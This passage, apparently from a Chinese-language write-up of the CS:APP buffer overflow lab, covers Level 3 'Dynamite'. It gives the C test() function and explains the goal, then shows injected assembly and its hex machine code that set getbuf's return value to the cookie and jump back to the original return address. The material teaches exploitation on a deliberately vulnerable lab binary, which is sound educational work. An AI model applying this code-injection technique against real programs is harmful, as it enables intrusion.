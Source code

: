 ![](csapp-lab1-2-3/image-20221029202121258.png)

### Level 3: Dynamite

> 目标：这个 Level 要求我们注入一段能够修改 getbuf 返回值的代码，返回值从 1 改成 cookie 值，此外还需要还原所有破坏，继续运行 test 的剩下部分。函数正常返回时执行 第15行，我们要让函数执行第12行

```c
void test()
{
    int val;
    volatile int local = 0xdeadbeef;
    entry_check(3); /* Make sure entered this function properly */
    val = getbuf();
    /* Check for corrupted stack */
    if (local != 0xdeadbeef){
        printf("Sabotaged!: the stack has been corrupted\n");
    }
    else if (val == cookie){
        printf("Boom!: getbuf returned 0x%x\n", val);
        validate(3);
    }
    else
    {
        printf("Dud: getbuf returned 0x%x\n", val);
    }
}
```

函数的返回值保存在%eax中，所以将cookie值放入这个寄存器中，并将原来正确的返回地址（即call <getbuf>的下一条指令地址`0x804901e`）压入栈中，构造完成攻击的汇编代码如下:

```assembly
movl $0x58932f5a, %eax		#move cookie to %eax, return %eax
push $0x804901e				#push <test> return address
ret
```

将汇编语言转换成十六进制的机器代码：

```assembly
00000000 <.text>:
   0:	b8 5a 2f 93 58       	mov    $0x58932f5a,%eax
   5:	68 1e 90 04 08       	push   $0x804901e
   a:	c3                   	ret    
```
